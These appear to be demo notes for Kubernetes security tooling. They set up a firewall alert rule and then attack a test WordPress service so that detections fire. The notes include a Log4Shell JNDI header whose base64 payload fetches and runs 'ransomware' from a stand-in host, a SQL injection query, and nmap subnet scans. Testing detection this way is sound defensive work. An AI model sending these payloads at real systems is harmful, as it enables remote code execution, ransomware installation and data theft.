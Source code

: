 --------------------------------
--- WAF
--------------------------------

kubectl patch felixconfiguration default --type='merge' -p '{"spec":{"policySyncPathPrefix":"/var/run/nodeagent"}}'

kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -


kubectl apply -f - <<-EOF
apiVersion: projectcalico.org/v3
kind: GlobalAlert
metadata:
  name: waf-new-alert-rule-info
spec:
  summary: 'WAF new waf-alert-942100'
  description: 'Test WAF Global Alert'
  severity: 1
  dataSet: waf
  period: 1m
  lookback: 1h
  query: '"rule_info" IN {"*942100*"}'
  threshold: 0
  condition: gt
EOF


curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'wordpress.wordpress'


  curl http://wordpress.wordpress//test/artists.php?artist=0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user


############################################
### Detect zero-day attacks based on suspicious container activity using syscalls, file access, and process information 
############################################

Threat Defence > Container Threat Detection - enable

k run attacker --image ubuntu -- sleep infinity
k exec attacker -it -- /bin/bash

apt update
apt-get install nmap
nmap -sn $(hostname -i)/24
nmap -T4 -F $(hostname -i)/24
